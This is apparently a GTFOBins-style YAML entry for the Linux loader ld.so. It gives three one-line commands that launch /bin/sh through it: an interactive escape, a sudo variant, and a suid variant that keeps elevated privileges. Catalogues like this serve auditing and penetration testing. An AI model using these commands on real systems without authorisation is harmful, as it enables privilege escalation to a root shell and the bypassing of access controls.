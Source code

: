 ```yaml
---
description: Ld.so is the Linux dynamic linker/loader. Its file name and location might change between Linux versions.
functions:
  exec-interactive:
    - code: /lib/ld.so /bin/sh
  sudo-enabled:
    - code: sudo /lib/ld.so /bin/sh
  suid-enabled:
    - code: ./ld.so /bin/sh -p
---
```

